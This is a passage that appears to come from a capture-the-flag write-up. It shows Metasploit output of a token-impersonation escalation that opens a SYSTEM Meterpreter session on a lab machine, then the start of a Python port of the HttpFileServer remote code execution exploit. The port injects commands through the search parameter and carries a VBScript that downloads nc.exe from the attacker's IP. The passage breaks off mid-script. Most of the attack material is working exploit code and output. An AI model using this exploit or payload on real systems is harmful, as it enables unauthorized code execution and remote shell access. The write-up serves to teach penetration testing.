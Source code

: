 ```

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 2520
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

PlcSJ12VXrFA5zcJOyn31MqvPgYfjH9V
[+] Executed on target machine.
[*] Sending stage (175174 bytes) to 10.129.1.127
[*] Meterpreter session 3 opened (10.10.14.21:4444 -> 10.129.1.127:49163) at 2021-01-20 09:27:08 -0500
[+] Deleted C:\Users\kostas\AppData\Local\Temp\zIErSTZR.ps1

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

So let’s see if we can turn this into a python script. I am using https://www.exploit-db.com/exploits/39161 as the baseline. As this is what the metasploit exploit is based on.

This is the python script:

```
import urllib2
import sys


def script_create():
    urllib2.urlopen("http://10.129.1.127:80/?search=%00{.+"+save+".}")

def execute_script():
    urllib2.urlopen("http://10.129.1.127:80/?search=%00{.+"+exe+".}")

def nc_run():
    urllib2.urlopen("http://10.129.1.127:80/?search=%00{.+"+exe1+".}")

ip_addr = "10.10.14.21" #local IP address
local_port = "443" # Local Port number

"""
C:\Users\Public\script.vbs|dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://" ip_addr "/nc.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with
"""

```